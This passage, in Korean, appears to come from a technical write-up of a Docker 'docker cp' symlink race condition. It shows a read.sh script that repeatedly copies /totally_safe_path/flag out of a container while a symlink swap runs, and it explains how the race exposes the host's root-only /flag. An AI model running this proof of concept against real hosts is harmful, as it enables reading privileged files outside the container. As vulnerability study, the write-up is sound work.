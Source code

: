 일반적으로라면 당연히 도커 컨테이너 내부에서는 이 `/flag`파일을 읽지 못한다. 

이제 공격 코드를 살펴보자. 아래 코드는 `read.sh` 이다. 

```sh
#!/bin/sh

# dockerfile과 symlin_swap.c로 poc라는 이름의 이미지를 생성 및 도커 컨테이너 실행
docker build -t poc .
container_id=$(docker run --rm -d poc)

# 이제 계속 파일을 복사하기 위한 공격 시도
i=0
while [ $i -lt 500 ]
do
	mkdir "ex${i}"
	#이게 핵심.. 컨테이너에 위치한 /totally_safe_path/flag 파일을 호스트 로컬의 ex${i}/out으로 복사하는 명령어. 성공한다면 해당 파일에 /totally_safe_path/flag의 내용인, Copy SUCCESS!가 적힐 것이다. 
	docker cp "${container_id}:/totally_safe_path/flag" "ex${i}/out"
	i=$(($i + 1))
done
chmod 0644 ex*/out
```

코드를 설명해보면, 밑에 파일을 복사해서 읽기 위한 `docker cp`명령어를 500번을 수행한다. 
현재 컨테이너 내부에서는` symlink_swap.c`가 계속 돌아가는 중이기 때문에 이를 통해서 파일 읽기가 가능하다.  

여기서부터가 좀 중요하다. 현재 위에서 언급한 상태 중, B 상태라고 생각을 해보자. 

```dockerfile
# B, totally_safe_path-stashed가 /를 가르키면서 루트 권한을 갖는다. 
drwxr-xr-x  totally_safe_path
lrwxrwxrwx  totally_safe_path-stashed -> /
```

해당 상황에서는 컨테이너 내부 경로인 `/totally_safe_path/flag` 가 `FollowSymlinkInScope` 함수에 인자로 전달되면 심볼릭 링크가 없는 인자이기 때문에 절대경로인`/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path/flag` 가 반환된다. 그런데 만일 해당 함수의 동작이 끝나고, `/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path/flag` 를 `ex${i}/out` 로 복사하려는 그 순간의 바로 직전에 A 상태가 된다면,, 취약점이 발생하는 것이다. 

```dockerfile
# A, 컨테이너 내부를 심볼릭 링크한다. 
lrwxrwxrwx  totally_safe_path -> /
drwxr-xr-x  totally_safe_path-stashed

# A로 변한 B, 호스트 로컬의 파일을 볼 수 있다. 
lrwxrwxrwx  /var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path -> /
drwxr-xr-x  /var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path-stashed
```

`/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path` 가 현재 루트 dir인`/` 에 심볼릭 링크되어 있는 상태니까 실제로 수행되는 것은 `/flag` 가 루트 권한으로`ex${i}/out` 로 복사된다.  결론적으로는 읽기 권한이 없는 호스트 로컬의 `/flag` 의 내용을 읽을 수 있게 된다.  

직관적으로 표현하면 아래 그림과 같다.
